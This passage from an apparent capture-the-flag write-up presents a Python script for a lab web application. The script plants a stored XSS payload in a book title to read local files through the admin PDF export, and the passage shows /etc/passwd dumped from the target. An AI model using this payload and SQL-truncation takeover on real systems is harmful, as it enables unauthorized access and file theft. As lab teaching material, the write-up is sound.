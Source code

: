 
        def default(self, args):
            # Upload XSS
            files = {'Upload': ('file.pdf', 'dummy data', 'application/pdf')}
            values = {'title': '<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file://' + args + '");x.send();</script>',
                      'author': '0xdf',
                      'Upload': 'Upload'}
            resp = self.user_sess.post(f'{self.base_url}/collections.php', files=files, data=values, allow_redirects=False, proxies={'http':'http://127.0.0.1:8080'})

            # Get Results
            resp = self.admin_sess.get(f'{self.base_url}/admin/collections.php?type=collections')
            pdf = parser.from_buffer(resp.content)
            print(pdf['content'].strip())

    term = Terminal()
    try:
        term.cmdloop()
    except KeyboardInterrupt:
        print()



I create a `Cmd` Terminal object, and invoke it's `cmdloop()`. On
initialization, it creates sessions for both a user login (after
creating that user), and an admin session (after using SQL-truncation to
set a password). Then, when a path is entered, it uses that path to send
an XSS through the user session, and then gets the PDF through the admin
session. Then it parses the PDF to pull the text out using
[tika](https://github.com/chrismattmann/tika-python), and prints it. The
spacing got a bit weird at times, but it worked good enough:



    root@kali# python3 book_file_read.py 
    Session created as user: cr7qe72admu9iqk9aja5pcc7nv 
    Session created as admin: 4mo93ht69to89sc4vuv3j81rn9     
    book> /etc/passwd                            
    root:x:0:0:root:/root:/bin/bash                    
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin      www-data:x:33:33:www-
    data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing    List    Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin        gnats:x:41:41:Gnats
    Bug-Reporting   System  (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin      systemd-
    network:x:100:102:systemd       Network
    Management,,,:/run/systemd/netif:/usr/sbin/nologin      systemd-
    resolve:x:101:103:systemd
    Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
    syslog:x:102:106::/home/syslog:/usr/sbin/nologin
    messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
    _apt:x:104:65534::/nonexistent:/usr/sbin/nologin
    lxd:x:105:65534::/var/lib/lxd/:/bin/false
